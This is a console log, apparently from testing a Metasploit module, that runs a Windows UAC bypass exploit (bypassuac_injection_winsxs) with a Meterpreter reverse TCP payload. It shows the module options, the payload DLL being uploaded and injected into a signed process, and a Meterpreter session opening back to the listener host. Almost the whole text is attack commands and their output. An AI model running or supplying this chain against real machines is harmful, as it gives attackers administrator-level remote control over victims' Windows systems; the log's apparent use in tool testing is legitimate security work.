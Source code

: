 ```
lport => 30010
> set verbose true
verbose => true
> show options

Module options (exploit/windows/local/bypassuac_injection_winsxs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     <MSF_IP>  yes       The listen address
   LPORT     30010            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


> run -j
[*] Exploit running as background job.
[*] resource (/home/msfuser/rapid7/test_artifacts/test_rc/windows-meterpreter-reverse_tcp-192x168x134x160-30009.rc)> Ruby Code (13 bytes)
[*] Started reverse TCP handler on <MSF_IP>:30010 
[*] resource (/home/msfuser/rapid7/test_artifacts/test_rc/windows-meterpreter-reverse_tcp-192x168x134x160-30009.rc)> Ruby Code (12 bytes)
[+] Windows 10 (Build 10586). may be vulnerable.
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Creating temporary folders...
[*] Uploading the Payload DLL to the filesystem...
[*] Payload DLL 18944 bytes long being uploaded...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[*] Injecting  into process ID 3476
[*] Opening process 3476
[*] Injecting struct into 3476
[*] Executing payload
[+] Successfully injected payload in to process: 3476
[*] Sending stage (957487 bytes) to <Win10x86_IP>
[*] Meterpreter session 2 opened (<MSF_IP>:30010 -> <Win10x86_IP>:50078) at 2017-10-03 12:19:03 -0700
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
```